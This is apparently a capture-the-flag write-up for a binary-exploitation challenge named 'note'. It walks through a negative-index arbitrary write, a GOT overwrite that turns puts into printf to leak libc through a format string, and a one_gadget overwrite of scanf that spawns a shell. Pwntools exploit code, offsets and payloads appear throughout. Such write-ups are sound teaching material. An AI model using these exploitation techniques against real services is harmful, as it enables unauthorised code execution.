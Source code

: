 # Note

We were given [this binary](./Sources/note) and these files to run it :

 - [Dockerfile](./Sources/Dockerfile)
 - [docker-compose.yml](./Sources/docker-compose.yml)
 - [docker-entrypoint.sh](./Sources/docker-entrypoint.sh)

First things first, we can just run this container and get it's [libc](./Sources/libc.so.6) and [ld](./Sources/ld-linux-x86-64.so.2). After running `pwninit` we get our [patched binary](./Sources/note_patched) using the same libraries as the server.

We can also see that most of the securities are enabled on that binary:

```console
$ checksec --file=./note
[*] '/home/geoffrey/Documents/Notes/CTF/Hack_in/note/note'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

With this out of the way, let's check out what the program does :

![note](./Images/note.png)

We can add notes, view their contents, and exit. Looking at the pseudo C we get with Ghidra, we can see that these notes are written on the bss in this function :

```C
void add(void)
{
  long in_FS_OFFSET;
  uint user_choice;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  getn(&user_choice);
  if (0x10 < (int)user_choice) {
     call_exit(1);
  }
  printf("value: ");
  read(0,notes + (long)(int)user_choice * 0x10,0xf);
  printf("note added on %d successfully!\n",(ulong)user_choice);
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
     __stack_chk_fail();
  }
  return;
}
```

`getn()` is only using `scanf` to get an integer, and since there's no check on wheter `user_choice` is negative, there is an interger underflow in this line:

```C
if (0x10 < (int)user_choice) {
```

This gives us an arbitrary write with this `read()` call:

```C
read(0,notes + (long)(int)user_choice * 0x10,0xf);
```

For example if I create a note with index `-10`, I'll be writing at address `notes - 160` as we can see with GDB:

```console
=== Menu ===
1. Add
2. View
0. Exit
> 1
idx: -10
value: 
```

![underflow example](./Images/underflow_example.png)

Since the binary has Partial RELRO, the got is writable. So this vulnerability immediatly SCREAMS got overwrite. If you don't know what the fuck I'm talking about, [this](https://ir0nstone.gitbook.io/notes/binexp/stack/aslr/plt_and_got) might help you out.

Our problem being, pie and aslr are activated. So if we want to overwrite the got with a one gadget we first need a leak to calculate it's address. I didn't find another vulnerability to get a leak, so at first I thought about bruteforcing which sadly couldn't work. Since I can overwrite the got, maybe if I overwrite some other function's got with `puts` it might leak me something. It didn't 🗿

At that point, not seeing any other options I chose to stop in shame and go do some reverse.

![shame](https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExYTFiajR5em8wbjJpZG8xMWRzNHFyZXQzcHU0OGZwczRjdzA3bm5meCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/vX9WcCiWwUF7G/giphy.gif)

But later on, reinvigorated by a quick flag, I decided to take another look at it. And this time I thought : I tried to overwrite other functions with `puts`, but what about `printf` ? And I saw this line in `view()` (the function letting us view the note's content) :

```C
puts(notes + (ulong)index * 0x10);
```

We can write over `notes`, so if `puts` actually calls `printf` this gets us a format string.

![revelation](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExMjB6N3FxMDM0NWp5b3BtMWI2NDByYzdramFkaHE0ZTloaDg1dGFlNiZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/26ufdipQqU2lhNA4g/giphy.gif)

First thing first, let's check wheter it's feasable using GDB:

![got overwrite](./Images/got_plt_values.png)

Since `puts`'s address isn't resolved until we call it in `view()`, it doesn't point to the libc yet. And as we can see above, we only have to overwrite the least significant byte to `0xf0` to make it point to `printf`'s plt. Let's make it happen with a script:

```python
def add(index:bytes, value:bytes):
    p.sendline(b"1")
    p.recvuntil(b"idx: ")
    p.sendline(index)
    p.recvuntil(b"value: ")
    p.send(value)
    p.recvuntil(b">")

def view(index:bytes):
    p.sendline(b"2")
    p.recvuntil(b"idx: ")
    p.sendline(index)
    data = p.recvuntil(b"===").replace(b"===", b"").strip()
    p.recvuntil(b">")
    return data
```

First we can code these functions to interact with the program, and now we can overwite `puts` got quite simply this way:

```python
add(b"-10", b"\xf0")
```

We know it's `-10` simply by debugging and calculating the offset. For example, `0x55cb0f7f6000` being the address of `notes` and `0x55cb0f7f60a0` the address of `puts`'s got :

```python
>>> 0x55cb0f7f6000-0x55cb0f7f60a0
-160
>>> _/0x10
-10.0
```

As you can see, we now have a format string when viewing our notes :

```console
=== Menu ===
1. Add
2. View
0. Exit
> 1
idx: 0
value: %17$p
note added on 0 successfully!
=== Menu ===
1. Add
2. View
0. Exit
> 2
idx: 0
0x7f95cfe2a1ca
```

By debugging we can find out that the payload `%17$p` leaks us the libc. So we can automate the leak this way :

```python
add(b"0", b"%17$p")
leak = view(b"0")
libc.address = int(leak, 16) - (libc.sym["__libc_start_call_main"] + 122)
```

Now, we need to find a one gadget which constraint's won't be an issue. Took me some time, but I found this one that could be executed during the `scanf` call in the `menu()` function :

```
0xef52b execve("/bin/sh", rbp-0x50, [rbp-0x78])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
  [[rbp-0x78]] == NULL || [rbp-0x78] == NULL || [rbp-0x78] is a valid envp
```

And finally, we just have to overwrite `scanf`'s got with that one gadget:

```python
one_gadget = p64(libc.address + 0xef52b)
add(b"-7", b"A"*8+one_gadget[:7])
```

Putting it all together in [this script](./solve.py) we get the flag:

```console
$ ./solve.py -r 146.148.28.103 32866
$ cat flag.txt
HNx04{83b55ee77f37cac314fe45d1f45e33f4}
```
